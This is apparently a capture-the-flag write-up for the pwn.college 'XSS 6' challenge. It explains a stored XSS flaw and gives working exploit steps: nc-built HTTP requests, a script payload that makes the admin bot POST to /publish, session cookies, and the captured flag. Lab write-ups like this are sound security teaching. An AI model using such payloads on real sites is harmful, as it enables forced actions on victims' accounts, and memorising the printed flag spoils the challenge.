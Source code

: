 # 🛡️ XSS 6 — Writeup

## 📁 Challenge Information

- **Category**: Web Exploitation
- **Challenge Name**: XSS 6
- **Platform**: pwn.college
- **Tags**: `Stored XSS`, `JavaScript`, `CSRF`, `Privilege Escalation`, `Session Abuse`

---

## 🔍 Description

This challenge builds on the previous XSS exercises but adds a twist: the `/publish` route now requires a **POST** request rather than a GET. This means the attack must simulate a **POST** request from the victim's browser using JavaScript.

---

## ⚙️ Application Behavior

### Login
- Auth via `/login` sets a session cookie

### Draft Post Submission
- Accessible at `/draft`
- `content` is inserted into the HTML without escaping

### Publish
- In XSS 5: `GET /publish`
- In XSS 6: now requires `POST /publish`
- Includes this form:
```html
<form action=publish method=post><input type=submit value="Publish All Drafts"></form>
```

### Vulnerable Rendering:
```python
page += post["content"]
```

User-controlled HTML is directly inserted and rendered—classic **stored XSS**.

---

## 🧪 Exploitation Plan

1. Login as `hacker`
2. Inject malicious JS that sends a `POST` request to `/publish`
3. Mark the post as published so the JS executes for visitors (e.g., the bot)
4. Trigger the bot to visit `/`
5. The admin's browser executes JS and submits a POST to `/publish`
6. Admin's draft (flag) is published
7. View the published post as `hacker`

---

## 🧨 Step-by-Step Exploit

### 1. Login as `hacker`

```bash
printf "POST /login HTTP/1.0\r\nHost:challenge.localhost\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:29\r\n\r\nusername=hacker&password=1337" | nc challenge.localhost 80
```

✅ Session cookie from response:
```
session=eyJ1c2VybmFtZSI6ImhhY2tlciJ9.aH2V3g.DWCnjyhHpO2eh8uII1zrbxucvWs
```

---

### 2. Inject Stored XSS via `/draft`

Payload:
```html
<script>
fetch("http://challenge.localhost/publish", {
  method: "POST",
  headers: {"Content-Type": "application/x-www-form-urlencoded"},
  body: "msg=OwnedByXSS"
})
</script>
```

Submit it:

```bash
printf 'POST /draft HTTP/1.0\r\nHost:challenge.localhost\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:179\r\nCookie:session=eyJ1c2VybmFtZSI6ImhhY2tlciJ9.aH2V3g.DWCnjyhHpO2eh8uII1zrbxucvWs\r\n\r\ncontent=<script>fetch("http://challenge.localhost/publish",{method:"POST",headers:{"Content-Type":"application/x-www-form-urlencoded"},body:"msg=OwnedByXSS"})</script>&publish=on'| nc challenge.localhost 80
```

✔️ The post is **published** and will execute JS when visited by the victim.

---

### 3. Trigger Admin Visit

```bash
/challenge/victim
```

✔️ Admin bot visits the page and executes the `fetch()` JS, which sends a POST to `/publish`.

---

### 4. Re-login and View the Result

```bash
printf "POST /login HTTP/1.0\r\nHost:challenge.localhost\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:29\r\n\r\nusername=hacker&password=1337" | nc challenge.localhost 80
```

New cookie from response:
```
session=eyJ1c2VybmFtZSI6ImhhY2tlciJ9.aH2WEQ.JY8MoZM_5zzfs4-M6SFvmo1dp5c
```

Check if it worked:

```bash
curl -b "session=eyJ1c2VybmFtZSI6ImhhY2tlciJ9.aH2WEQ.JY8MoZM_5zzfs4-M6SFvmo1dp5c" http://challenge.localhost/
```

✅ Output includes:

```html
<h2>Author: admin</h2>pwn.college{YHfdoNx7kPHkKQzkkUPm3t3twX9.QXwgTN2wSM0IzMyEzW}
```

---

## 🏁 Flag

```
pwn.college{YHfdoNx7kPHkKQzkkUPm3t3twX9.QXwgTN2wSM0IzMyEzW}
```

---


